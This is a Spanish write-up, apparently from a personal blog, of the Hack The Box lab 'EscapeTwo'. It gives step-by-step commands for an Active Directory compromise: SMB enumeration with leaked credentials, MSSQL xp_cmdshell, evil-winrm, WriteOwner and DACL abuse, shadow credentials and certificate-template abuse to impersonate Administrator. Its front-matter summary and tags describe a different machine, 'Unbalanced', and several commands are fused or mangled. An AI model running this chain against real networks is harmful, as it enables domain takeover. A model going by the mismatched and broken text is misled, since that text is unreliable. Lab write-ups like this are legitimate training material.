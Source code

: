 ```yaml
---
layout: single
title: EscapeTwo  - Hack The Box
excerpt: "To solve Unbalanced, we'll find configuration backups files in EncFS and after cracking the password and figuring out how EncFS works, we get the Squid proxy cache manager password that let us discover internal hosts. Proxying through Squid, we then land on a login page that uses Xpath to query an XML backend database. We perform Xpath injection to retrieve the password of each user, then port forward through the SSH shell to reach a Pi-Hole instance, vulnerable to a command injection vulnerability."
date: 2025-01-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-unbalanced/portada.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - rsync
  - encfs
  - squid
  - xpath
  - CVE-2020-11108
  - command injection
---
```


![](/assets/images/portada.png)
## rose / KxEPkKe6R8su

## Portscan
nmap -Pn -sS -sC -sV -p- -T5 --max-rate 10000 -oN escape-two.txt 10.10.11.51

53/tcp    - domain       - Simple DNS Plus
  88/tcp    - kerberos-sec - Microsoft Windows Kerberos  
135/tcp   - msrpc        - Microsoft Windows RPC  
139/tcp   - netbios-ssn  - Microsoft Windows NetBIOS  
389/tcp   - ldap         - Microsoft Windows Active Directory LDAP  
445/tcp   - microsoft-ds - Posiblemente SMB  
464/tcp   - kpasswd5     - Posiblemente Kerberos  
593/tcp   - ncacn_http   - Microsoft Windows RPC over HTTP  
636/tcp   - ssl/ldap     - LDAP sobre SSL  
1433/tcp  - ms-sql-s     - Microsoft SQL Server  
3268/tcp  - ldap         - Microsoft Windows Active Directory LDAP  
3269/tcp  - ssl/ldap     - LDAP sobre SSL  
5985/tcp  - http         - Microsoft HTTPAPI (SSDP/UPnP)  
9389/tcp  - mc-nmf       - .NET Message Framing  
47001/tcp - http         - Microsoft HTTPAPI (SSDP/UPnP)  
49664-49808/tcp - msrpc - Microsoft Windows RPC (puertos dinámicos)





## Rsync & EncFS

 Bandera de usuario

Intente una enumeración básica de smb


```
poetry run python netexec.py smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --shares                                                     main 
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ        
```

Mirando los catálogos, encontramos el Departamento de Contabilidad que nos interesa. Tenemos que descargarlo usando el comando y luego desempacarlo.

```
smbclient //escape.two.htb/Accounting\ Department -U Rose%KxEPkKe6R8su                                                                              130 ↵  

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 13:52:21 2024
  ..                                  D        0  Sun Jun  9 13:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 13:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 13:52:07 2024

                6367231 blocks of size 4096. 910811 blocks available

mget *
Get file accounting_2024.xlsx? y
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (25.7 KiloBytes/sec) (average 25.7 KiloBytes/sec)
Get file accounts.xlsx? y
getting file \accounts.xlsx of size 6780 as accounts.xlsx (19.8 KiloBytes/sec) (average 23.0 KiloBytes/sec)
``` 

ya depues de descargar lso 2 archivos viendo la extencion en gogle veo muachas aplicaiones para manipular el archivo

![](/assets/images/htb-writeup-unbalanced/xml.png)

La cuenta sa es la cuenta de administración predeterminada para conectar y administrar la base de datos MSSQL. Comprobar mostró que la cuenta es válida, intente utilizar mssqlclient de impacket para iniciar sesión.

![](/assets/images/htb-writeup-unbalanced/sql.png)

Genial, ahora somos sas. Por defecto, el procedimiento almacenado xp.cmdshell está desactivado en MSSQL, pero podemos habilitarlo y disfrutar de todos sus beneficios.

Asegúrese de buscar al anfitrión en busca de algo útil. Por ejemplo, tiene archivos notables para la implementación de MSSQL.

![](/assets/images/htb-writeup-unbalanced/sql1.png)

evil-winrm -i sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'

![](/assets/images/htb-writeup-unbalanced/evil.png)

 Bandera de raíz Enlace a la partida

A continuación, considere la explotación de las listas de control de acceso discreto (DACL) utilizando el permiso de WriteOwner. El abuso del permiso de WriteOwner puede llevar a un cambio del propietario del objeto a un usuario controlado por un atacante (en este caso, ryan) y capturar el objeto.

El informe Bloodhound contribuyó a encontrar el vector.

python3 bloodyAD.py --host DC01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'set owner ca_svc ryan

![](/assets/images/htb-writeup-unbalanced/bloo.png)


A continuación, establezca permisos FullControl para Ryan. Ahora podremos controlar el objeto de este usuario, incluida la capacidad de modificarlo y borrarlo.


```
dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'    

```
El siguiente comando certipy-ad de abusar automáticamente de la cuenta de sombra cásvc. Nos conectamos al controlador de dominio por dirección IP (-dc-ip) y utilizamos las credenciales especificadas para la autenticación.

```
certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 'DC01.sequel.htb' -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc
```

![](/assets/images/htb-writeup-unbalanced/cert.png)
```
KRB5CCNAME=ca_svc.ccachecertipy-ad find -scheme ldap -k -debug -target DC01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout

KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target {host name} -dc-ip {ip}
```


![](/assets/images/htb-writeup-unbalanced/cert2.png)

Este comando crea una solicitud de certificado para la cuenta de casvc utilizando los hashess y la plantilla especificados:

certipy-ad req -u ca_svc -hashes :hashes -ca sequel-DC01-CA -target {host} -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@{domain} -ns {ip} -dns {ip}

![](/assets/images/htb-writeup-unbalanced/cert3.png)

Ahora se trata de autenticar al usuario usando el archivo PFX que se obtuvo el paso antes:


```
certipy-ad auth -pfx {some.pfx} -dc-ip {ip}
```
![](/assets/images/htb-writeup-unbalanced/certifica.png)


Todo lo que queda es usar mal viento y un nuevo hash administrador. La bandera de raíz nos estará esperando en el escritorio.
![](/assets/images/htb-writeup-unbalanced/evil2.jpg)
